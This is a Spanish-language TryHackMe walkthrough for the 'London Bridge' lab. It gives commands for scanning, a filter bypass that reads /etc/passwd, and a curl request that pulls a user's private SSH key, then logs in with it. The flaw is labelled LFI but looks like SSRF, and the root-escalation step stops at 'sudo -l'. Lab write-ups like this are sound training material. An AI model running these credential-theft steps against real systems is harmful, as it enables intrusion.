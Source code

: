 ```yaml
---
title: "TryHackMe: The London Bridge - Walkthrough"
description: "De LFI a root mediante exposición de claves SSH"
pubDate: "2024-06-20"
heroImage: "/assets/thm-london.webp"
tags: ["tryhackme", "lfi", "pentesting"]
---
```


<!-- ************************** -->
<!-- SECCIÓN DE INTRODUCCIÓN -->
<!-- ************************** -->

![Banner de la máquina](/assets/london-bridge-cover.webp)

Esta máquina **Linux (dificultad media)** explota:

- Local File Inclusion (LFI)
- Exposición de claves SSH
- Escalada vía misconfiguración SUDO

---

<!-- ************************** -->
<!-- SECCIÓN DE RECONOCIMIENTO -->
<!-- ************************** -->

## 🔍 1. Reconocimiento Inicial

### Escaneo Nmap
```bash
nmap -sV -sC -p- 10.10.154.180 -oN scans/nmap_initial
```

**Resultados clave**:
```markdown
PORT     STATE SERVICE    VERSION
8080/tcp open  http      Node.js Express
22/tcp   open  ssh       OpenSSH 7.6p1
```

---

<!-- ************************** -->
<!-- SECCIÓN DE EXPLOTACIÓN -->
<!-- ************************** -->

## 💣 2. Explotación de LFI

### Bypass de filtros
```diff
- Bloqueado: /etc/passwd
+ Funciona: 127.1:80/etc/passwd
```

### Obtención de clave SSH
```bash
curl -X POST 'http://10.10.154.180:8080/view_image' \
-d 'image_url=127.1:80/home/beth/.ssh/id_rsa' > beth_rsa
```

---

<!-- ************************** -->
<!-- SECCIÓN POST-EXPLOTACIÓN -->
<!-- ************************** -->

## 🚀 3. Post-Explotación

### Conexión SSH
```bash
chmod 600 beth_rsa
ssh -i beth_rsa beth@10.10.154.180
```

### Escalada a root
```bash
sudo -l  # Verificar permisos
```

---

<!-- ************************** -->
<!-- SECCIÓN DE CONCLUSIÓN -->
<!-- ************************** -->

## 🔐 4. Lecciones Aprendidas

### Vulnerabilidades explotadas
```markdown
1. LFI → Lectura arbitraria
2. SSH Key Exposure → Acceso inicial
3. SUDO Misconfig → Escalada
```

### Recomendaciones
```markdown
- [ ] Validación estricta de inputs
- [ ] Restringir ~/.ssh/
- [ ] Auditoría SUDO
```

<!-- ************************** -->
<!-- BLOQUE DE CÓDIGO FINAL -->
<!-- ************************** -->
